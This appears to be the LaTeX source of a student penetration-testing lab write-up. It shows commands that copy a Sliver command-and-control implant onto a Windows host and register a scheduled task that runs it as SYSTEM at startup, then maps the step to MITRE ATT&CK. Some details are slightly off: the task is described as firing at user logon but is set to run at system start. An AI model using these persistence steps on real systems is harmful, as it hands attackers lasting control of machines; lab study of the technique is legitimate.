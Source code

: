 \documentclass[notitlepage]{article}
\begin{document}
    Now, we can move the executable from the z drive to the c drive and then create a task that will startup this executable whenever a user logs in as follows

    \begin{verbatim}
copy z:\sliver.exe c:\Users\pr0b3\sliver.exe
schtasks /create /tn "Sliver" /tr "C:\users\pr0b3\sliver.exe" 
/sc ONSTART /ru "system"
schtasks /Run /TN Sliver
    \end{verbatim}

    \subsection{Confirmation}
    If we have sliver open when we run the task above, we should see a message that says a connection has been established. Once we see this message, running whoami yields our
    username on the machine where sliver.exe is running. In the image below, --save ~/sliver.exe was not used so it defaulted to name FREQUENT{\_}WATERFALL.exe \\
\texttt{[image: ~/Desktop/school/fall2023/pen/ex/ex0c0/sliver]}

    \subsection{MITRE ATT{\&}CK Framework TTPs}
        
    \subsubsection*{}
    \ttp(TA002, Execution, T1053, Scheduled Task/Job, .005, Scheduled Task)
\end{document}
